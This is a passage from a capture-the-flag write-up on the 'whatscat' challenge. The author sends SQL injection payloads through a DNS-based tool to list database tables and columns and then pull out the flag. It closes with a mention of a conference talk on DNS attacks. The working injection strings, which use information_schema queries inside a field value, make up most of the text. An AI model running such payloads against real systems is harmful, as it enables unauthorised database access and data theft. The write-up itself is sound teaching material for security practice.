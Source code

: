 Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

```
./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"
```

Leads to:

```

Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
```

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

```
./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"
```

Leads to:

```

Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
```

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

```
./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"
```

Which gives us:

```

Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
```

And now we dance.

## Conclusion

If you're interested in DNS attacks—this scenario and a whole bunch of others—come see my talk at [BSidesQuebec](http://www.bsidesquebec.org/) this June!!!